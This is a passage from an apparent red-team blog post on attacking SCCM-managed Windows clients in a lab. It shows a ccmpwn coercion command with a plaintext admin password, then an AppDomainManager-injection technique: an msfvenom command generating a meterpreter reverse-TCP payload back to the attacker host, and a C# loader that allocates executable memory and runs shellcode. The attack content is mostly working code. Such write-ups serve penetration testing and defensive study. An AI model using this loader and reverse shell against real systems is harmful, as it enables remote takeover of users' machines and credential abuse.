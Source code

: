 ```bash
python3 ccmpwn.py 'CLIENT'/administrator:'EP+xh7Rk6j90'@192.168.33.13 coerce -computer 192.168.33.1
```

![coerce_ccmpwn.png](/assets/blog/SCCM/coerce_ccmpwn.png)


## Impersonate Users - revshell connected users

- Appdomain manager abuse exist for some time now [https://pentestlaboratories.com/2020/05/26/appdomainmanager-injection-and-detection/](https://pentestlaboratories.com/2020/05/26/appdomainmanager-injection-and-detection/), [https://www.rapid7.com/blog/post/2023/05/05/appdomain-manager-injection-new-techniques-for-red-teams/](https://www.rapid7.com/blog/post/2023/05/05/appdomain-manager-injection-new-techniques-for-red-teams/), but the technic used with ccmpwn abuse can also load a dll on the different users. let's try that with metasploit as we have disabled defender on client.

- create the csharp shellcode

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.33.1 LPORT=443 -f csharp -o msf.cs
```

- create the csharp file poc.cs

```csharp
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.Threading.Tasks;

public sealed class MyAppDomainManager : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        bool res = ClassExploit.Execute();
        return;
    }
}
  
public class ClassExploit
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public static bool Execute()
    {
       byte[] buf = new byte[510] { #shellcode here# };
       int size = buf.Length;
       IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
       Marshal.Copy(buf, 0, addr, size);
       IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
       WaitForSingleObject(hThread, 0xFFFFFFFF);
       return true;
    }
}
```
